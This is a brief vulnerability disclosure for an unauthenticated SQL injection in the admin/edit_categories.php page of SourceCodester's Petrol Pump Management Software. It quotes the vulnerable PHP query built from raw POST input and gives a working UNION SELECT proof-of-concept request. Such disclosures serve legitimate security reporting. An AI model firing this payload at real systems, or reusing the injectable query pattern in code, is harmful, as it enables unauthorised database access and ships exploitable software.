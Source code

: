 # SOURCECODESTER / Petrol pump management software - edit_categories.php Unauthenticated SQL Injection

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://www.sourcecodester.com/php/17180/petrol-pump-management-software-free-download.html

## Affected Component
> /admin/edit_categories.php

## Code
```php
 <?php
                                    $stmt = $conn->prepare("SELECT * FROM `fuel_category` WHERE id='" . $_POST['id'] . "' AND delete_status='0' ");

                                    $stmt->execute();
                                    $record = $stmt->fetchAll();
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /admin/edit_categories.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

id=1'+union+select+null,version(),null+%23g
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/160950031/6e807d5a-431c-43a9-9c56-0d986ecae189)
